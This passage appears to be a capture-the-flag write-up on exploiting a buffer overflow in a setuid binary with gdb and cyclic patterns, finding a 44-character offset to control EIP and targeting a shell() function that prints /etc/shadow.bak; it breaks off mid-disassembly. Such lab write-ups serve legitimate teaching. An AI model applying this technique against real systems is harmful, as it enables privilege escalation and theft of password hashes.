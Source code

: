 
For the given task we use gdb to analyse the binary and try to exploit it.
We start by running the following command:
`gdb /opt/secret/root`

Then from the source code we see that it is vulnerable to a buffer overflow.
So in order to analyze the overflow we cycle through with a bunch of shit input:
`r < <(cyclic 50)`

This will generate a bunch of nonsese in four bit cycles, sending in aaaaaaabaaacaaadaaaf...
Until it gets a segmentsation fault. From the output of gdb, we can see that it stops at the address 0x6161616c.
So in order to be able to overrite the EIP (instruction pointer) we have to find out exactly how many characters we need to get to that address.
Here is the bottom line of the output of the gdb cycle function showing the address:
` ► f 0 6161616c`

Then we use the cyclic -l flag in order to see how many characters it passed before it reached a specific address:
`cyclic -l 0x6161616c`
Outputs:
`44`

So it is 44 characters to cause the segmentation fault. We could test that by running the binary and passing in 44 characters.
Can use python to create a 44 long string:
```python
print ("A"*44)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Not lets run the file with this input:
```sh
./root
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

If we try the same with 43 'A' characters we wont get the same segment fault.
So we found the sweet-spot where it causes an error, and now we can execute whatever part of the program we want.


### PART 7 - Binary-Exploitaion: Manually

We can see in the source code that the program is calling a command called `shell()` which cats the output of /etc/shadow.bak
So the next step is to make the instruction pointer (EIP) point to the `shell()` function address. To find this we do the following:

```sh
info functions
disassemble shell
```

the first command will list all the functions being called in the binary.
The disassebmle command will disassemble the specified function so we can see the addresses and what it does in assebmly.
The output is as follows:
```sh
Dump of assembler code for function shell:
   0x080484cb <+0>:     push   ebp
   0x080484cc <+1>:     mov    ebp,esp
   0x080484ce <+3>:     sub    esp,0x8
   0x080484d1 <+6>:     sub    esp,0xc
   0x080484d4 <+9>:     push   0x3e8
   0x080484d9 <+14>:    call   0x80483a0 <setuid@plt>
   0x080484de <+19>:    add    esp,0x10
   0x080484e1 <+22>:    sub    esp,0xc
   0x080484e4 <+25>:    push   0x3e8
```
